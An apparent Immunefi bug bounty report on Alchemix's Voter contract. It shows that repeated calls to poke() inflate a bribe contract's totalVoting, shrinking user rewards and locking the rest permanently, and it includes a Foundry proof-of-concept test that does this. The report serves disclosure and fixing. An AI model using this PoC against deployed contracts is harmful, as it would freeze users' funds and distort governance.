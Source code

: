
# Reward token permanent freeze due to bulk call of Poke function

Submitted on Fri May 03 2024 18:49:59 GMT-0400 (Atlantic Standard Time) by @cryptoticky for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30671

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results
- Permanent freezing of unclaimed yield

## Description
## Brief/Intro
The poke function facilitates users to vote with the same weight for each pool in each epoch easily. The problem is that this function does not use a onlyNewEpoch modifier. As a result, an attacker could potentially call this function hundreds of times within a single epoch, and the totalVoting of bribe contract does not accurately track such actions.

## Vulnerability Details
Voting.poke function doesn't use onlyNewEpoch modifier
```
    /// @inheritdoc IVoter
    function poke(uint256 _tokenId) public {
        // Previous boost will be taken into account with weights being pulled from the votes mapping
        uint256 _boost = 0;

        if (msg.sender != admin) {
            require(IVotingEscrow(veALCX).isApprovedOrOwner(msg.sender, _tokenId), "not approved or owner");
        }

        address[] memory _poolVote = poolVote[_tokenId];
        uint256 _poolCnt = _poolVote.length;
        uint256[] memory _weights = new uint256[](_poolCnt);

        for (uint256 i = 0; i < _poolCnt; i++) {
            _weights[i] = votes[_tokenId][_poolVote[i]];
        }

        _vote(_tokenId, _poolVote, _weights, _boost);
    }
```
_vote function call _reset function and the _reset function call withdraw of Bribe contract.

```
/// @inheritdoc IBribe
    function deposit(uint256 amount, uint256 tokenId) external {
        require(msg.sender == voter);

        totalSupply += amount;
        balanceOf[tokenId] += amount;

        totalVoting += amount;

        _writeCheckpoint(tokenId, balanceOf[tokenId]);
        _writeSupplyCheckpoint();
        _writeVotingCheckpoint();

        emit Deposit(msg.sender, tokenId, amount);
    }

    /// @inheritdoc IBribe
    function withdraw(uint256 amount, uint256 tokenId) external {
        require(msg.sender == voter);

        totalSupply -= amount;
        balanceOf[tokenId] -= amount;

        _writeCheckpoint(tokenId, balanceOf[tokenId]);
        _writeSupplyCheckpoint();

        emit Withdraw(msg.sender, tokenId, amount);
    }
```
As you can see, in Bribe.withdraw function, totalVoting is not calcutated.
In the end, totalVoting only keeps increasing.

The totalVoting is used to calculate reward amount of a tokenId.
```
/// @inheritdoc IBribe
    function earned(address token, uint256 tokenId) public view returns (uint256) {
        if (numCheckpoints[tokenId] == 0) {
            return 0;
        }

        uint256 _startTimestamp = lastEarn[token][tokenId];

        // Prevent earning twice within an epoch
        if (block.timestamp - _bribeStart(_startTimestamp) < DURATION) {
            return 0;
        }

        uint256 _startIndex = getPriorBalanceIndex(tokenId, _startTimestamp);
        uint256 _endIndex = numCheckpoints[tokenId] - 1;

        uint256 reward = 0;
        // you only earn once per epoch (after it's over)
        Checkpoint memory prevRewards; // reuse struct to avoid stack too deep
        prevRewards.timestamp = _bribeStart(_startTimestamp);
        uint256 _prevSupply = 1;

        if (_endIndex >= 0) {
            for (uint256 i = _startIndex; i <= _endIndex; i++) {
                Checkpoint memory cp0 = checkpoints[tokenId][i];
                uint256 _nextEpochStart = _bribeStart(cp0.timestamp);
                // check that you've earned it
                // this won't happen until a week has passed
                if (_nextEpochStart > prevRewards.timestamp) {
                    reward += prevRewards.balanceOf;
                }

                if (_startIndex == _endIndex) break;

                prevRewards.timestamp = _nextEpochStart;
                _prevSupply = votingCheckpoints[getPriorVotingIndex(_nextEpochStart + DURATION)].votes;

                // Prevent divide by zero
                if (_prevSupply == 0) {
                    _prevSupply = 1;
                }
                prevRewards.balanceOf = (cp0.balanceOf * tokenRewardsPerEpoch[token][_nextEpochStart]) / _prevSupply;
            }
        }

        Checkpoint memory cp = checkpoints[tokenId][_endIndex];
        uint256 _lastEpochStart = _bribeStart(cp.timestamp);
        uint256 _lastEpochEnd = _lastEpochStart + DURATION;
        uint256 _priorSupply = votingCheckpoints[getPriorVotingIndex(_lastEpochEnd)].votes;

        // Prevent divide by zero
        if (_priorSupply == 0) {
            _priorSupply = 1;
        }

        if (block.timestamp > _lastEpochEnd) {
            reward += (cp.balanceOf * tokenRewardsPerEpoch[token][_lastEpochStart]) / _priorSupply;
        }

        return reward;
    }
```
## Impact Details
- Users end up receiving less rewards than what the actual voting results would entitle them to.
- The remaining reward amount is locked forever.

Unfortunately, the bribe contract does not have a function to withdraw this remaining amount.

        
## Proof of concept
## Proof of Concept

```
// SPDX-License-Identifier: GPL-3
pragma solidity ^0.8.15;

import "./BaseTest.sol";

contract BugPokePoC is BaseTest {

    function setUp() public {
        setupContracts(block.timestamp);
    }

    function testBugPoke() public {
        uint256 tokenId = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
        address bribeAddress = voter.bribes(address(sushiGauge));
        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        uint256 totalVoting;
        uint256 poolWeight;

        hevm.startPrank(admin);

        uint256 period = minter.activePeriod();

        hevm.warp(period + nextEpoch);
        voter.distribute();

        voter.vote(tokenId, pools, weights, 0);

        poolWeight = voter.weights(sushiPoolAddress);
        totalVoting = IBribe(bribeAddress).totalVoting();
        console.log("poolWeight", poolWeight);
        console.log("totalVoting", totalVoting);
        console.log("totalVoting / poolWeight", totalVoting / poolWeight);
        // Next epoch
        hevm.warp(block.timestamp + nextEpoch);
        voter.distribute();


        // An attacker can call poke function more than 100 times on one tx,
        // and all users will receive less reward than the actual reward value they deserve.
        // The rest of the reward token will be locked in the bribe contracts forever.
        for (uint256 i = 0; i < 5; i++) {
            voter.poke(tokenId);

            poolWeight = voter.weights(sushiPoolAddress);
            totalVoting = IBribe(bribeAddress).totalVoting();
            console.log("poke", poolWeight);
            console.log("totalVoting", totalVoting);
            console.log("totalVoting / poolWeight", totalVoting / poolWeight);
        }
    }
}
```